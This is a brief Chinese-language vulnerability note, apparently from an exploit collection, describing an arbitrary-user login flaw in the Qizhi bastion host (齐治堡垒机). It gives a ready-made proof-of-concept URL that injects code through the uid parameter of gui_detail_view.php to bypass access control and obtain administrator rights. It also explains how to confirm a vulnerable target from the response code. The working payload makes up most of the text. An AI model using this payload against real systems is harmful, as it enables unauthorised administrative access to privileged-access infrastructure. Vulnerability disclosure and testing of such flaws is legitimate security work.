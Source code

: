 # 齐治堡垒机任意用户登陆

齐治堡垒机存在任意用户登录漏洞，通过构造URL可绕过访问控制获取目标管理员权限。


情报可以见：https://forum.ywhack.com/thread-115423-1-1.html

**PoC：**

```
http://xxx.xxx.xxx.xxx/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```

状态码返回200，存在漏洞；“错误ID”提示，不存在漏洞。